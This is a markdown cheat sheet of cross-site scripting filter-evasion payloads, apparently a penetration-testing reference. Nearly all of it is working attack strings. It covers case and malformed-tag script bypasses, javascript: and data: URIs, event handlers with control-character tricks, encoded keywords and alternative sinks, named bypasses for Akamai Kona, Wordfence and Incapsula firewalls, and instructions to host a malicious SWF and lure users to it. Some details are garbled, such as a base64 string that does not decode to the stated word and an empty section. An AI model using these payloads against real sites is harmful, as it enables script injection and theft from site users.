 # Filter Evasion

## Common Techniques

### Script tag

#### Weak tag parsing bypass

```
<ScRiPt>...</sCrIpT>
<ScRiPt>...    #unclosed tags
<script/[gibberish]>...<script>
<script [\n\r\t]>...</script>
<script [\x00 \x0D \x0A]>... </script [\x00 \x0D \x0A]>
<scr<script>ipt>...</scr<script>ipt>
```

#### Common alternative tags

Require use interaction

```
<a href="javascript:[code]">show</a>
<a href="data:text/html;base64,[base64 payload]">show</a>

<form action="javascript:[code]><button>Click me</button></form>
<form id="f1"></form><button form="x" formaction="javascript:[code]">Click me</button>

<object data="javascript:[code]">
<object data="text/html:<script>[code]</script>">
<object data="data:text/html;base64,[base64 payload]">
```

#### EvilCos

Can be downloaded from [here](https://github.com/evilcos/xss.swf).

Host the age on a site that you control and trick a user to navigate to it or trigger a HTTP request to the malicious URL.

```
<object data="[evil site]/xss.wfs">
<object data="[evil site]/xss.wfs" allowscriptaccess="always">
```

### Events

#### Common HTML 4

```
<body onload="[code]">
<input type="image" src="x" onerror="[code]">
<isindex onmouseover="[code]">
<form oninput="[code]"><input></form>
<textarea autofocu onfocus="[code]">
<input oncut="[code]">
```

#### Common HTML 5

```
<svg onload="[code]">
<keygen autofocus onfocus="[code]">
<video><source onerror="[code]">
<marquee onstart="[code]">
```

#### Filter Bypass

Bypass filter that match every word that starts with on by exploiting browser dynamisms

```
<svg/onload=...>
<svg///////onload=...>
<svg id="x";onload=...>
<svg id=x;onload=...>
<svg id=`x`onload=...>
```

Bypass filters by exploiting control characters not included in the /s regex selector

```
<svg onload%09=...>
<svg %09onload=...>
<svg %09onload%20=...>
<svg onload%09%20%28%2c%3b=...>
<svg onload%0b=...>
```

List of control characters commonly allowed after the equal sign or just before the event name to  use to spoof filters

```
%09 %0b %0c %20 %3b    #Internet Explorer
%09 %20 %28 %2c %3b    #Google Chrome
%2c %3b                #Safari
%09 %20 %28 %2c %3b    #Firefox
%09 %20 %2c %3b        #Opera
%09 %20 %28 %2c %3b    #Android
```

### Keywords

Some filters try to detect common words used in XSS attacks such as alert, document, xhr, cookie etc...

#### Bypass by encoding

URL encoding, Unicode and CSS formats can be used directly inside HTML pages without needing native tools. These techniques can be combined with each other to form even more complex payloads

```
alert
\u0061lert
&#x0061lert
&#97lert

#the encoding formats below require the input to be in a string
eval('\141lert')
eval('\x61lert')

#useless escapte characters
eval('\a\l\e\rt(\1\)')
```

#### Bypass by constructing strings

```
alert
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)    #Hex unicode encoding
atob("YWxkcnQ=")                           #Base64 paylad
17795081..toString(36)                     #Convert the number on the left to a base36 string
```

#### Alternatives function sinks

```
setTimeout
setInterval
Function
[].constructor.constructor("[code]")
```

### Sanification Bypass





## WAF Bypass

### Google Chrome Payloads

#### Google XSS Audit Bypass

```
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

#### Chrome < v60 beta XSS-Auditor Bypass

```
<script src="data:,alert(1)%250A-->
```

#### Other Google Audit Bypass Payloads

```
<script>alert(1)</script
<script>alert(1)%0d%0a-->%09</script
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

### Safari

```
<script>location.href;'javascript:alert%281%29'</script>
```

### Kona WAF (Akamai) Bypass&#xD;

```
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

### Wordfence&#x20;

```
<meter onmouseover="alert(1)"
'">><div><meter onmouseover="alert(1)"</div>"
>><marquee loop=1 width=0 onfinish=alert(1)>
```

### Incapsula WAF

```
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
<img/src=q onerror='new Function`al\ert\`1\``'>
```
